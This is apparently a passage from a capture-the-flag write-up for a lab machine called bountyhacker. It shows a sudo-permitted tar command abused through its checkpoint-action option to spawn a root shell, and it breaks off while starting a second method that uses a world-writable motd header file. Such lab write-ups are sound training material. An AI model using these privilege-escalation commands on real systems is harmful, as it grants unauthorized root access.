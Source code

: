 Our permissions via `id` show default groups, nothing extra.

Looking at `sudo -l` shows us we can run the tar command as root:

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

<br>

## Root

Looking at [**GTFOBins for the tar command**](https://gtfobins.github.io/gtfobins/tar/#sudo) shows us we can use that to escalate over to root with the following:

![](images/bountyhacker2.png)

I run that command but substitute bash for sh and get root:

```
<REDACTED>@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# whoami
root
```

Over in the root directory we find the final flag, root.txt:

`wc -c /root/root.txt`

```
19 /root/root.txt
```

<br>

## Bonus Root Method

I found another way to get root on this system due to the /etc/update-motd.d/00-header file being writable by everyone:

`ls -al /etc/update-motd.d/00-header`
